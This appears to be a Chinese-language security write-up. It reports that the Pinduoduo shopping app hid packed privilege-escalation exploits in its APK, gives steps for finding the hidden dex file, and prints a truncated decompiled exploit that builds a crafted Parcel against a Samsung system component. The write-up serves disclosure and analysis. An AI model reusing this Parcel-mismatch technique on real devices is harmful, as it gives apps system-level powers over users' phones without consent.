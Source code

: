 # 拼多多apk内嵌提权代码，及动态下发dex分析
https://androidperformance.com/2023/05/14/bad-android-app-with-system-permissions/

参考「 深蓝洞察 」的文章：https://mp.weixin.qq.com/s/P_EYQxOEupqdU0BJMRqWsw
（Bundle 风水 - Android Parcel 序列化与反序列化不匹配系列漏洞，实现 0day/Nday 攻击，从而绕过系统校验，获取系统级 StartAnyWhere 能力）


复现流程如下：  
下载3月5日前更新的（6.50版本前）的拼多多apk，如6.49版本：  
https://com-xunmeng-pinduoduo.en.uptodown.com/android/download/91472728  

解压apk文件，找到拼多多apk中，提权代码所在的文件位置：  
pinduoduo-6-49-0.zip\assets\component\com.xunmeng.pinduoduo.AliveBaseAbility.7z\com.xunmeng.pinduoduo.AliveBaseAbility\vmp_src\mw1.bin

以上是一个加VMP壳的dex文件，脱壳还原出代码，可以找到针对不同手机厂商系统的多个用于提权的漏洞利用代码，胆子相当的大，比如利用三星手机“com.samsung.android.cepproxyks.CertByte”的提权漏洞，代码如下：


 ```
// assets/component/com.xunmeng.pinduoduo.AliveBaseAbilitiy
// [Manwei]
// com/xunmeng/pinduoduo/android_pull_ablity_comp/pullstartup/SamsungAlivePullStartup 

Public static Bundle makeBundleForSamsungSinceP(Intent intent){
	Bundle bundle = new Bundle();
	Parcel obtain = Parcel.obtain();
	Parcel obtain2 = Parcel.obtain();
	Parcel obtain3 = Parcel.obtain();
	obtain2.writeInt(3);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(3);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(4);
	obtain2.writeString("com.samsung.android.cepproxyks.CertByte");
	obtain2.writeInt(0);
	byte b[] = new byte[0];
	obtain2.writeByteArray(b);
	obtain2.writeInt(0);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(53);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(1);
	obtain2.writeInt(1);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(48);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(13);
	obtain2.writeInt(-1);
	int dataPosition = obtain2.dataPosition();
 ```